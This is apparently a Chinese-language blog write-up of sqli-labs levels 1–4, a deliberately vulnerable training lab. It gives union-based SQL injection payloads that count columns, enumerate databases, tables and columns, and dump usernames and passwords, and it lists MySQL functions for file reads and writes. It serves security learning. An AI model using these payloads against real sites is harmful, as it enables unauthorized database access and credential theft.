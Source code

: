 ```yaml
---
layout:     post
title:      sqli-labs(1-4)
subtitle:   sqli-labs(1-4)
date:       2020-11-28
author:     YY——阳阳
header-img: img/post/post-bg-2020-11-28.jpg
catalog: true
tags:
    - sqli-labs
---
```


## 前言
此关卡的主要思想以及步骤如下：

**首先判断注入方式**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112231338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

## less-1

#### 0x01
> 提示为字符型注入，构造payload 
> ```../?id=1' and 1=1 ```正确 
> ```../?id=1' and 1=2 ```错误
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128103812435.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
>确认存在注入点

#### 0x02
> 然后进行确认字段数，因为不知道有几个字段，所以进行尝试。构造payload ```../?id=1' order by 1,2,3,4 --+ ```，发现在4时会报错，因此字段有3个。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128104116956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

**PS：order by是mysql中对查询数据进行排序的方法，当排序所在列不存在时即会报错，因此根据回显可以判断目前有几列**
```bash
select * from user order by id asc;  对id字段进行排序
select * from user order by 1 desc;  对第一列进行排序
asc 升序排列 desc降序排列
```

#### 0x03
> 判断回显位置位于哪里，构造payload ```../?id=-1' union select 1,2,3--+```
> 因为判断出一共三列，因此判断1，2，3列的回显位置，此处id为-1，因为union联合查询后，不会多行显示，就需要先让前面的语句失效。![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112901270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=1为正确语句，所以不会回显后边的执行语句。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113012539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=-1为错误判断，因此会回显后边的执行语句，发现回显位置为2和3。

#### 0x04
> 接下来爆库，构造payload，```../?id=-1' union select 1,version(),database()--+```
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113330872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
```php
PS：常用sql注入函数
version():mysql版本，user():用户名，database():数据库名，@@datadir:读取数据库路径，@@version_compile_os:操作系统版本
concat(str1,str2,…):没有分割符地连接字符串，显示数据（数据合并）
group_concat(str1,str2,…):连接一个组的所有字符串，并以逗号分割每一条数据，显示数据
into outfile：写文件{select ‘需要写的文件’ into outfile ‘目录下’}，select ‘123123’ into outfile ‘d://study/1.txt’;(将123123添加至d盘study中新建1.txt文件中)
group_concat(列名):会把这一列中所有的内容在一行中以,隔开输出
select load_file(读文件路径)；
length() =>计算字符串长度
hex() =>字符转换为16进制
@@basedir MYSQL获取安装路径
```
>查看所有数据库，payload```../?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata,3 --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114357420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70
)![在这里插入图片描述](https://img-blog.csdnimg.cn/2020112811442066.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x05
>查询security内的所有表名，构造payload```../?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()--+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114654322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x06
> 查看users里的字段，构造payload```../?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users'--+```
> 我们发现了username和password，然后将其进行注入出来
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114947405.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x07
>查询所有的用户名和密码，构造payload```.../?id=-1' union select 1,group_concat(username),group_concat(password) from users --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128115706646.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

PS：GROUP_CONCAT函数返回一个字符串结果，该结果由分组中的值连接组合而成。
CONCAT（）函数用于将多个字符串连接成一个字符串。
concat_ws()  将多个字符串连接成一个字符串,可以一次性指定分隔符

## less-2
基于报错的数字型GET注入，这个由于是数字型的，所以闭合的时候不用单引号了。
检查是否存在注入，发现存在注入
```?id=1=1```正确
```?id=1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128120459894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
整数型注入和字符型注入在于构造的id不同，整数型注入id=-1，下面构造payload

```bash
?id=-1 order by 1,2,3,4,5--+ //判断列数
?id=-1 union select 1,2,3--+ //判断回显位置
?id=-1 union select 1,user(),database()--+ //爆库
?id=-1 union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1 union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1 union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```

## less-3
基于’)的字符型注入，判断是否存在注入
```id=1') and 1=1```正确
```id=1') and 1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128123046820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1') order by 1,2,3,4,5--+ //判断列数
?id=-1') union select 1,2,3--+ //判断回显位置
?id=-1') union select 1,user(),database()--+ //爆库
?id=-1') union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1') union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1') union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```
## less-4
基于")字符型注入，判断是否存在注入
```id=1“) and 1=1```正确
```id=1”) and 1=2```错误![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128124840306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1") order by 1,2,3,4,5--+ //判断列数
?id=-1") union select 1,2,3--+ //判断回显位置
?id=-1") union select 1,user(),database()--+ //爆库
?id=-1") union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1") union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1") union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```